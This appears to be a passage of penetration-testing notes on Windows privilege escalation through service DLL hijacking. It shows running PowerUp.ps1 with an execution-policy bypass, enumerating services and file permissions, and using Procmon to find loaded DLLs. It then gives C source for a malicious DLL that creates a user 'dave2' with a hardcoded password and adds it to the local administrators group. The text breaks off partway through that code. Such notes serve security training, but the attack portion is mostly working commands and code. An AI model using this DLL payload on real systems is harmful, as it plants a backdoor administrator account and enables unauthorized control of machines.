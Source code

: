 ## Use an automated tool PowerUp.ps1

```powershell

powershell -ep bypass
Import-Module .\PowerUp.ps1

# Execute Get-ModifiableServiceFile
Get-ModifiableServiceFile

```

## Service DLL Hijacking

Standard DLL search order on current Windows versions

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

```powershell
# displaying the contents of this environment variable
$env:path

# Displaying information about the running services 
Get-CimInstance -ClassName win32_service 
	| Select Name,State,PathName,StartMode 
	| Where-Object {$_.State -like 'Running'} 
	| sort-object -property Name

# Displaying permissions on the binary of BetaService
icacls \BetaServ.exe

# We would copy the BetaService.exe binary to a local machine
# and use Process Monitor Procmon64.exe to identify all DLLs loaded by BetaService

# ⇒ Create a filter : Process name is BetaServ.exe  then Include it
# ⇒ Then restart the BetaService service by

```

# Create myDLL.dll with a malicious code

```c

#cat myDLL.cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
        i = system ("net user dave2 password123! /add");
        i = system ("net localgroup administrators dave2 /add");
        break;
```